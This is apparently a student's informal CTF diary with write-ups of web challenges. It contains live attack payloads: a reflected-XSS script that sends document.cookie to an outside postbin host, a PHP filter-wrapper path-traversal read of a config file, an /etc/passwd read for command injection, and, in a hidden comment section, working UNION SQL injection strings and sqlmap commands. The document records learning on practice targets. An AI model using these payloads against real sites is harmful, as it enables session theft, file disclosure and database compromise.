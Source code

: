 > [!IMPORTANT]
> To whoever might be reading this file
> 
> some writeups do have more **interesting** language which I have hidden(if you do decide to view it in code mode instead of the nice mode)
> 
> these are self notes for me to refer back in the future
> 
> lastly, I wish whoever that is reading this a good day and you achieve what you came here for


# --- n.d
first try was -> curl http://165.227.106.113/header.php
- error got error saying wrong user agent , so curl mentioned that i can specify an agent (whatever that is) to enter the site.
so i tried curl --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php which used the agent given by the site
- next error says i did not come from a site called awesomesauce.com (how dare he discriminate me)
therefore after some bs and more bs , i figured that i couuld use a referer
found out using curl -help all   which btw shows all functions of curl
then the command become like this and the flag came out idk how hahahha 

curl -e awesomesauce.com  --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php

challenge link -> https://ctflearn.com/challenge/109

yup thats all , fair diffuculty for meduim 

# --- n.d
okok legit final one for today
challenge -> https://ctflearn.com/challenge/691

this one quite simple, nc commect to the server , play the betting game 
simple concept of betting , guess a number, win = ur money + initial bet, loose = initial money - bet
so if 500 - 500 = 1000 , that explains all i need to redeem the flag 

# --- 31st august 2024
OK next one , this one not fully solve by me thanks to a community fella in their dc server , still gotta record this thing down for fun
This ctf is a indi one called 3108 , merdeka themed
challenge link (not sure how long it will be up) = https://b1bf68f7fd.bahterasiber.my/

When you open the link , you immediately get blasted by music which sets you in merdeka mood. THere are 3 songs, keranamu Malaysia , tanggal31 and Jalur Gemilang
there are 3 hyeriinks which will each display the lyrics of one of the songs and an audio player to play the song and sing along. 

starting of all web challenge it to look at its source code, it was short , very short
the entire script was :
    function setPage(page) {
        const encodedPage = btoa(page);
        document.cookie = "page=" + encodedPage + ";path=/";
        location.reload();
    }

so i tried to do path traversal first realizing i was dumb

then i followed the 5 line script which by the way wil trigger everytime one of the hyperlinks are clicked and set the "page" variable to the respective page
then it encodes the page in base 64 and sets it into the cookie named page
finally, it reloads the page 

i tried to use burpsuite for at least 5 hours trying different cookies and paths 
i even got access to etc/passwd and /bin/bash
that aside i also tried to extract information from the audio and even the BACKGROUND IMAGE using binwalk and stings, no luck.

finally after so many tries , time was up and i asked 
to apparently i was right but wrong, i used php wrapper but not on the config , only on the index file 


yeah thats it , you use the wrapper on the config file : php://filter/convert.base64-encode/resource=../../../var/www/html/config.php


the website returned : PD9waHAKJGhvc3QgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gImN1YmFhbiBtZW5nZWhhY2sga2EgaXR1IjsKJHBhc3N3b3JkID0gIjMxMDh7bTRyMV9rMXQ0X3c0cmc0X24zZzRyNH0iOwokZGF0YWJhc2UgPSAiZmxhZyI7CgokY29ubiA9IG5ldyBteXNxbGkoJGhvc3QsICR1c2VybmFtZSwgJHBhc3N3b3JkLCAkZGF0YWJhc2UpOwoKaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbm5lY3Rpb24gZmFpbGVkOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgplY2hvICJDb25uZWN0ZWQgc3VjY2Vzc2Z1bGx5IjsKPz4K


when decoded we get the php file and BOOM its there : 
```
<?php
$host = "localhost";
$username = "cubaan mengehack ka itu";
$password = "3108{m4r1_k1t4_w4rg4_n3g4r4}";
$database = "flag";

$conn = new mysqli($host, $username, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

echo "Connected successfully";
?>
```




# --- sep26-27 2024
i spent wayyyyyyyyyyyyyyyyyyyyyyyy too much time on this bs
this one is a challenge from SKR -> https://skrctf.me/challenges#XSS-GPT 
had to literally go through piles of writeups just to get to the flag 
references (totally not in APA)

https://ctftime.org/writeup/15817 

https://portswigger.net/web-security/cross-site-scripting/reflected#reflected-xss-in-different-contexts

https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Cross-Site-Scripting-XSS-Payloads.txt

special thankyou to postbin -> https://www.postb.in/

challenge starts of with a white ass site with a chat box and a report admin button
after reading the html, you are somewhat required to have an API key (which i have 0 idea on wtf it is) 
so i tried editing the parameter as one of the hints say and spammed random things into the apiKey parameter in the site, none worked as expected....
then i tried the classic xss to trigger alert and it worked, as in the entire site bugged out with a wall of error messages.

After some revisiting of the js, i had to change to payload to </script><script>alert("ayane")</script><script> for it to successfully trigger the xss
which then also completely broke the site
then i figured by clicking the report admin button (while the site is not broken) would send a post request to a page called reportAdmin with the api key parameter

after being stuck on the same thing for quite a while (2 hrs) i went to check out some wwriteups 
thats where i learnet that i can use postbin/webhook in combination with XSS to capture and send data to a given site 

after aa lot of spamming different payloads , this one worked (url encoded)

also first time making a code block here, yay

```
</script><script>var i=new Image;i.src="https://www.postb.in/1727372628601-9432018648367/?c="+document.cookie;</script><script>
```

then i replaced the kep parameter in the post request to the reportAdmin page and checked my postbin site , and there was the flag 
SKR{R3flec73D_1n_API_k3y_f4ae0d}

time to learn more on hwo this backend stuf and API work
anyways ending this on a good note, heres a banger i listened to while scritching my head -> https://youtu.be/DZTXaq23534

quick take away to self, please please please inspect the code carefully and if possible in visual studio code so you dont miss any pages or fucntion....

# --- command injection 
challenge -> https://ctflearn.com/challenge/150
i dont undertsand.....
all i know is remember to always test for command injection =) 
try ls, cat /../../../etc/passwd
you never know when something is being executed by a shell, especially when it is as simple as arithmetic 
this one quite tricky, did not find much hints on the script being executed on the shell (or maybe im blind)


<!--- 

# ---  n.d
alright its 3 50 in the fcuking morning idk what better to do than ctf instad of sleeping, writeup time....

curl -X POST -d "username=admin&pass -d=71up-dnlkadsf" http://165.227.106.113/post.php
this is the challange link btw , you need to login to see -> https://ctflearn.com/challenge/114 

welp apparenntly this command is quite useful , yeah... 
curl or client URL can help you get the webpage from terminal (as if you dont have a browser....)
it also has parameters you can use to send data for example , nice right ? (as if a browser couldnt do it)
according to the curl -h , the -d parameter allows you to send data ain a form of http post request . honestly have no idea what the -X means ahah
ok i lied , the first part of the command curl -X POST is to specify the method using the -X parameter and POST being the method in this case(other methods such as GET)
the -d basically as mentioned above allows you to send/POST data and specifies the data you want to send 

ive completed my first writeup?
i like to call them notes or better known as references , writeup too formal for this bullshit 
for now this thing is named the bloodflame archive cuz i have no idea what to name it while also listening to ERB (would have been an amazing pun if i was writting thsi on ARCH instaed of ubuntu...)
y'knwo what , maybe this can be known better as my CTF diary since i yap so much bs here ahhahaa
aaaaaaaaany ways since i last formatted pc , i lost all my progress(diary) on SKR, gotta redo it here , for now this is all i have , im a poor man , poor of information 
its 4 01 , my sleep is fked, i havent finished my dailies , im going to sleep , need to contol the ctf addiction !!!

 

# --- n.d
I HAVE TO SAY , NO WEED OR GACHA PULLS SHOULD BE ABLE TO BEAT THE HIGH I JUST FELT SOLVING MY FIRST HARD CHALLANGE 
alright so heres the story and challenge link : https://ctflearn.com/challenge/149
so yeah this gonna be a long story , future me or whoever i share this with , get ready

the website has a simple ui that allows you to search for dogs by typing in an id (no checking btw)
after some test , there are 3 dogs in the database each with id 1-3
When each of these numbers are types in , the page displays the dog name , breed and color 

1st attempt starts with a basic sql injection from -> https://www.w3schools.com/sql/sql_injection.asp
The page then returned the data of all 3 dogs. 
This proves the site is inject-able and vulnerable.
Next step , find the damn flag...

In the challege tittle , it mentions union is a good command.
In sql , union basicaly uunites things, allowing the user to combinee the output of 2 select commands together provided they are of same datatype. 
Both select command also need to select the same command. 
Well, guess what i did , yes i tried to guess the style of the query like an idiot. 
1st guess : select * from dogs where id = 'userinput'
with this many attempts i took and none succeeded , not even outputting the 1st dog's name. 

After a few hours of searching , i came across something about information.schema.tables. 
OH , after 1 semester of sql , i didnt even know this table existed....
In fact , many more tables not only this one....
that aside, i tried to enter some strings like 

' UNION NULL,NULL,NULL,NULL -- 
as i figured that the table would only have a maximum of 4 columns.

' UNION SELECT * FROM information.schema.tables -- 
as i thought i might just get everything from that table, unfortunately no...

1 or 2 days later (i forgot , memory got hazy from all the sqli)
i looked up union attacks and even tried to intercept the request with burpsuite , no luck
Then i re-read the comments and saw a tool named sqlmap which many claimned to be the easiest way to do it. 
I looked up the github , and installed the tool on my ubuntu. 

At first i ran it  - python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1"
not much return , following the error messages , i slowly finetune the command into this thing: 
python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1" --technique=U --random-agent --dbms=mysql --tamper=space2comment

cant explain all but i know what some do
- url specifies the url to attack
- technique specifies the technique to use in this case being a union attack
- dbms specifies the database type which sqlmap has already found out being mysql
- i have absolutely no idea what the other 2 do but here is the explanation -> https://github.com/sqlmapproject/sqlmap/wiki/Usage

finally the program returned 3 files, a log file , target file and lastly a file named 'session.sqlite'
unfortunatly the session file could not be opened while both text files were repeated information showed in the terminal 
but it DID give something useful, which was the payload used to attack:

Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL-- -


i then used the payload to craete this attempt: 
1 UNION ALL SELECT NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL,NULL-- -
it worked but only returned the decryped hex value in the input. 
references for this attempt : https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ 

Next attempt :
1 UNION ALL SELECT TABLE_NAME,TABLE_TYPE,TABLE_CATALOG,TABLE_SCHEMA FROM information_schema.tables-- -
the page returned many tables but one felt off, it was w0w_y0u_f0und_m3
sadly it was not the flag...
references for this try : https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.htmlc , https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/

3rd attempt: 
1 UNION ALL SELECT TABLE_NAME,COLUMN_NAME,TABLE_SCHEMA,TABLE_CATALOG FROM information_schema.columns-- -
this time the page returned many things , including a column 'f0und_m3' from the table 'w0w_y0u_f0und_m3'


last attempt : 
1 UNION ALL SELECT NULL,f0und_m3,NULL,NULL FROM w0w_y0u_f0und_m3-- -
it returned the information of the first dog and the flag 

alright thats a grandfather level story , time to rest , enough games today 


-->










